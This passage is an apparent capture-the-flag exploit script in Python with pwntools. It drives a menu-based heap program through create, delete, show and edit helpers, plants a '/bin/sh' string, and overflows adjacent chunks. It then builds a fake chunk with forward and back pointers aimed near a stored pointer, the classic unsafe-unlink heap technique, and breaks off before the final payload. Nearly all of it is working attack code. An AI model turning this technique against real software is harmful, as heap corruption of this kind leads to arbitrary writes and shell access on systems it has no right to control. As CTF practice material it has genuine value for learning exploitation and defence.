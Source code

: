 ```python
	sh.recvuntil("input your data\n")
	sh.send(data)
	sh.recvuntil("4:edit\n")

def edit(idx, data):
	sh.send("4\x00")
	sh.recvuntil("input id\n")
	sh.send(str(idx) + "\x00")
	sh.recvuntil("input your data\n")
	sh.send(data)
	sh.recvuntil("4:edit\n")

def delet(idx):
	sh.send("2\x00")
	sh.recvuntil("input id\n")
	sh.send(str(idx) + "\x00")
	sh.recvuntil("4:edit\n")

def show(idx):
	sh.send("3\x00")
	sh.recvuntil("input id\n")
	sh.send(str(idx) + "\x00")
	ret = sh.recvuntil("1:creat\n")
	sh.recvuntil("4:edit\n")
	return ret[:len(ret) - len("1:creat\n")]


creat(0xf8, "U" * 0x40) #0
creat(0xf8, "/bin/sh\x00") #1
creat(0xf8, "U" * 0x40) #2
creat(0xf8, "A" * 0x40) #3
creat(0xf8, "B" * 0x40) #4
creat(0xf8, "C" * 0x40) #5
creat(0xf8, "P" * 0x40) #6


delet(3)
creat(0xf8, "A" * 0xf8) #3
delet(4)
creat(0xf8, "B" * 0xf8) #4
#prevent merging and corrupting top chunk


# 0x1438020 PREV_INUSE { 1
#   prev_size = 0,
#   size = 257,
#   fd = 0x4242424242424242,
#   bk = 0x4242424242424242,
#   fd_nextsize = 0x4242424242424242,
#   bk_nextsize = 0x4242424242424242
# }
# 0x1438120 PREV_INUSE { 0
#   prev_size = 4774451407313060418,
#   size = 257,
#   fd = 0x4141414141414141,
#   bk = 0x4141414141414141,
#   fd_nextsize = 0x4141414141414141,
#   bk_nextsize = 0x4141414141414141
# }

fake_chunk = p64(0) + p64(0xf1)
fake_chunk += p64(get_addr(3) - 0x18)
fake_chunk += p64(get_addr(3) - 0x10)
```